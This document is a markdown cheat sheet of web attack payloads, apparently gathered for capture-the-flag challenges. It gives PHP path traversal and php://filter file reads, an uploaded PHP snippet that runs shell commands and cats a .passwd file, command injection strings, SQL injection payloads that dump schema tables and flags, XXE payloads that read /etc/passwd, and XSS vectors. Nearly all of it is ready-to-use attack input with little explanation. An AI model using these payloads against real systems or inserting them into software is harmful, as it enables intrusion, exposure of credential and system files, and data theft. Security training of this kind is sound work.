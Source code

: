 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
- PNG
``<?php
 echo exec("ls -la");
	exec("cd ..");
	echo exec("la -la");
	echo ("\n hello");
	echo exec ("cat ../../../.passwd")
?>``
- https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
### XSS:
- `#<script>alert('XSS')</script>`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<p onclick=alert('XSS')>Click me</p>`
- `#<body onload=alert('XSS')>`
- `#</p><script>alert('XSS')</script>`
- `#<img src="x" onerror="alert('XSS')">`
- `#%25253Cscript%25253Ealert(1)%25253C/script%25253E`
